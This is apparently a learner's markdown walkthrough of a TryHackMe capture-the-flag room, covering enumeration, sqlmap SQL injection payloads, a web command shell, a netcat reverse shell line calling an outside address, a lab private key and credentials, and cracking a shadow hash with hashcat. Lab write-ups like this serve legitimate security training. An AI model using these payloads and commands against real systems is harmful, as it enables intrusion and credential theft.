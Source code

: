 ## A. Enumeration

## A.1 nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d2c401b6c157cfcbf9b5522612a56fc (RSA)
|   256 ff893298f4779c0939f5af4a4f08d6f5 (ECDSA)
|_  256 899263e71d2b3aaf6cf939565b557ef9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```


## A.2 HTTP

1. index.html is a default apache server installation
2. found nothing in source code and robots.txt 
3. ran a gobuster to find directories

```
┌─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $gobuster dir -u http://10.10.34.3/ -w /usr/share/wordlists/small.txt -x php,html -t 60
```

found a login page

```
/administrator.php    (Status: 200) [Size: 409]
```

now as per THM room, we can use sqlmap for sql injection attacks, so lets try that

Note: sqlmap is not allowed on the OSCP exam, so i will limit my use of this tool for this room only.

SQLmap basically automates all of the exploit.


Stopped here because didnt wanna continue with automated tools


### SQLMAP
- restarted here again to complete the room

- sqlmap gives three types of SQLI vulns
```
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=QPLw' RLIKE (SELECT (CASE WHEN (5221=5221) THEN 0x51504c77 ELSE 0x28 END))-- tiQK&password=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=QPLw' AND GTID_SUBSET(CONCAT(0x7171707071,(SELECT (ELT(8200=8200,1))),0x7178717671),8200)-- avEM&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=QPLw' AND (SELECT 3691 FROM (SELECT(SLEEP(5)))BHcP)-- GEig&password=
```

and we get this

```
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

```

### RCE

- after logging in we are redirected to `http://10.10.8.199/2591c98b70119fe624898b1e424b5e91.php`

here can can execute commands as `www-data`
`uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)`

- this does not gives a reverse shell `nc -e /bin/sh 10.17.24.189 9999`

- `ls -al /home` gives this 
```
drwxr-xr-x  5 papa  papa  4096 Jan 15  2020 papa
drwxrwxrwx  6 pingu pingu 4096 Jan 20  2020 pingu
```

- `find / -type f -user papa -ls 2>/dev/null` this gives
`/var/backups/shadow.bak`

however not able to read it 

- `find / -type f -user pingu -ls 2>/dev/null` this gives

```
1061093      4 -rwxrwxrwx   1 pingu    pingu        1675 Jan 15  2020 /home/pingu/.ssh/id_rsa

  1061094      4 -rwxrwxrwx   1 pingu    pingu         394 Jan 15  2020 /home/pingu/.ssh/id_rsa.pub
```

we have read access

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArfwVtcBusqBrJ02SfHLEcpbFcrxUVFezLYEUUFTHRnTwUnsU
.
.
.
pOq0JjdnM+KJtB4ae8UazL0cSJ52GYbsNABrcGEZg6m5pDJD3MM=
-----END RSA PRIVATE KEY-----
```

- we are able to ping ourselves but reverse shell commands are not working
- used [[RCE to reverse shell - php]]

- when using the ssh private rsa key we are still prompted for a password


- found this as SUID bit binary `/opt/secret/root` - maybe after we get a user shell because this does nothing

- found this in `cat administrator.php`

```
$servername = "localhost";
    $username = "root";
    $password = "root"
```

- we can login into `mysql` using
```
www-data@ubuntu:/var/www/html$ mysql -u root -p

```

- but we get the same details we get in `sqlmap`

- used hint from the writeup 

`find / -type f -user www-data -ls 2>/dev/null`
we get this `/var/hidden/pass`

```
www-data@ubuntu:/var/hidden$ cat pass
cat pass
pinguapingu
```

### Priv ESC 

- pingu creds are
```
pingu:pinguapingu
```

- room has the source code of `/opt/secret/root`
```
`#include "unistd.h"   #include "stdio.h"   #include "stdlib.h"   void shell(){   setuid(1000);   setgid(1000);   system("cat /var/backups/shadow.bak");   }      void get_input(){   char buffer[32];   scanf("%s",buffer);   }      int main(){   get_input();   }`
```

- as per room instructions - ran this command in the ssh session ``gdb /opt/secret/root``

- then this ``r < <(cyclic 50)``

- stopped with the `pwndbg` as it was going over my head and skipped to hash cracking

- we have to crack this hash now ``$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.``


this is a  
|1800|sha512crypt $6$, SHA512 (Unix) 2| - https://hashcat.net/wiki/doku.php?id=example_hashes

using hashcat to crack the hash
```
┌─[glack@parrot]─[~/Desktop/THM/thecodcaper]
└──╼ $hashcat -a 0 -m 1800 forhash /usr/share/wordlists/rockyou.txt
```

we get a hit

```
love2fish
```

- there are no flags in this machine
